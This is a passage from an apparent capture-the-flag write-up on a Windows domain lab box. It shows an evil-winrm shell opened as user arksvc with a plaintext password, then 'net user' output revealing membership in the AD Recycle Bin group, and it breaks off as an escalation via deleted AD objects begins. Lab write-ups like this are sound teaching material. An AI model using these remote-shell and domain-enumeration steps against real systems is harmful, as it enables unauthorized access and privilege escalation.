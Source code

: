 
Anyway, I can get a shell over Evil-WinRM as arksvc:

    
    
    root@kali# evil-winrm -u arksvc -p "w3lc0meFr31nd" -i 10.10.10.182
    
    Evil-WinRM shell v2.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\arksvc\Documents>
    

## Privesc: arksvc –> administrator

### Enumeration

arksvc is also in some interesting groups:

    
    
    *Evil-WinRM* PS C:\> net user arksvc
    User name                    arksvc
    Full Name                    ArkSvc
    Comment
    User's comment
    Country code                 000 (System Default)
    Account active               Yes
    Account expires              Never
    
    Password last set            1/9/2020 5:18:20 PM
    Password expires             Never
    Password changeable          1/9/2020 5:18:20 PM
    Password required            Yes
    User may change password     No
    
    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   3/30/2020 12:37:25 PM
    
    Logon hours allowed          All
    
    Local Group Memberships      *AD Recycle Bin       *IT
                                 *Remote Management Use
    Global Group memberships     *Domain Users
    The command completed successfully.
    

### AD Recycle

`AD Recycle Bin` is a well-know Windows group. [Active Directory Object
Recovery (or Recycle Bin)](https://blog.stealthbits.com/active-directory-
object-recovery-recycle-bin/) is a feature added in Server 2008 to allow
administrators to recover deleted items just like the recycle bin does for
files. The linked article gives a PowerShell command to query all of the
deleted objects within a domain:
